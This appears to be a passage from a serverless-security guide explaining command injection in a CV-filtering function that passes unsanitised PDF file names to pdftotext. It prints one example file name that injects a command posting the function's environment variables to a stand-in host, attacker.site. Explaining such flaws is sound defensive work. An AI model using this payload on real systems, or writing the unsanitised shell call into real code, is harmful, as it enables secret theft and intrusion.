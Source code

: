 In this example of a job candidate CV filtering system, a transformation converts the PDF file into text in order to perform text analytics. The transformation of the PDF file into text is done using a command line utility (pdftotext)

The developer of this serverless function assumes that users will provide legitimate PDF file names and does not perform any kind of sanity check on the incoming file name, except for the rudimentary check to make sure the file's extension is indeed `.pdf`. The file name is embedded directly into the shell command and this weakness allows a malicious user to inject shell commands as part of the PDF file name.

For example, the following PDF file name, will leak all environment variables of the currently executing function:

```
foobar;env|curl -H "Content-Type: text/plain" -X POST -d @- http://attacker.site/collector #.pdf
```

